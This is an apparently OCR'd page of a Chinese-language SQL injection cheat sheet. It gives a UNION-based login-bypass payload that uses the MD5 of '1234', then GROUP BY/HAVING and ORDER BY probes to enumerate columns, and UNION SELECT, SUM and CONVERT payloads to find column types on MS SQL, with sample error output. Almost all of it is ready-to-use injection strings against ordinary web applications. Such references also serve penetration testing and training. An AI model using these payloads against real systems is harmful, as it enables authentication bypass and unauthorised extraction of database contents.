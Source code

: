 ##### 绕过登录实例 (MSP) 

Username :`admin`
Password : `1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055`

> 81dc9bdb52d04dc20036dbd8313ed055 = MD5(1234) 

#### 基于报错列出所有列名

##### 使用 HAVING BY 查找列名称 (S) 

- '`HAVING 1=1 --`
- `' GROUP BY **table.columnfromerror1** HAVING 1=1 --`
- `' GROUP BY **table.columnfromerror1, columnfromerror2** HAVING 1=1 --`
- `' GROUP BY **table.columnfromerror1, columnfromerror2, columnfromerror(n)** HAVING 1=1 --` 等等
- 在没有收到任何错误的时候则表示已经列完

##### 使用 SELECT 中的 **ORDER BY** 来查出列的数量**(MSO+)**

- `ORDER BY 1--`
- `ORDER BY 2--`
- `ORDER BY N—` *等*
- 直到报错，这是你就已经找到了该语句对应的列数 

#### 跟 UNION 相关的数据类型

##### 提示

1、使用 union 查询时，最好使用 union 和 all 的搭配

2、如果不显示左表的内容需要把左 SQL 设为假，可以是 -1 或者不存在的条件

3、在 union 查询时，填充字符最好使用 NULL

##### 找出列的类型

- `' union select sum(columntofind) from users--` (S)
  Microsoft OLE DB Provider for ODBC Drivers error '80040e07'  [Microsoft][ODBC SQL Server Driver][SQL Server]The sum or average aggregate operation cannot take a varchar data type as an argument.

  如果没有报错，则证明该列是数字类型的

- 还可以使用：`CAST()` 或 `CONVERT()`

  `SELECT * FROM Table1 WHERE id = -1 UNION ALL SELECT null, null, NULL, NULL, convert(image,1), null, null,NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULl, NULL--`

- `11223344) UNION SELECT NULL,NULL,NULL,NULL WHERE 1=2 –-`

  没报错，使用的是 MS SQL

- `11223344) UNION SELECT 1,NULL,NULL,NULL WHERE 1=2 –-`
  没报错，说明第一列是数字类型

- `11223344) UNION SELECT 1,2,NULL,NULL WHERE 1=2 —` 报错了，说明第二列不是数字类型

- `11223344) UNION SELECT 1,’2’,NULL,NULL WHERE 1=2 –-`
  没报错，说明第二列是字符类型
